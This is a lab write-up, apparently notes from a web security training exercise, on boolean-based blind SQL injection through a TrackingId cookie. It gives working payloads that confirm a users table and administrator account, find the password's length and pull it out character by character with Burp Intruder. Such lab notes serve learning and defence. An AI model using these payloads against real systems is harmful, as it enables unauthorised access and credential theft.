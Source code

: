 First at all, we checked if it is vulnerable modifying the trackingid and sending AND '1'='1
![[Pasted image 20250627204449.png]]![[Pasted image 20250627204430.png]]
Verify if users exist
`TrackingId=xyz' AND (SELECT 'a' FROM users LIMIT 1)='a`

Use the next query to verify that administrator exist
`TrackingId=xyz' AND (SELECT 'a' FROM users WHERE username='administrator')='a`

In order to determine how many character has the password, we need to change the length sequentially to see when the 'welcome back' disappear.  
`TrackingId=xyz' AND (SELECT 'a' FROM users WHERE username='administrator' AND LENGTH(password)>1)='a`

Now we need to guess the pass, for this we have the intruder tool. Using it we are able to find the first letter. 
1. `TrackingId=xyz' AND (SELECT SUBSTRING(password,1,1) FROM users WHERE username='administrator')='§a§`

When we find the first letter, we will need to change the character's position
1. `TrackingId=xyz' AND (SELECT SUBSTRING(password,2,1) FROM users WHERE username='administrator')='a`

For more advanced users, the solution described here could be made more elegant in various ways. For example, instead of iterating over every character, you could perform a binary search of the character space. Or you could create a single Intruder attack with two payload positions and the cluster bomb attack type, and work through all permutations of offsets and character values.

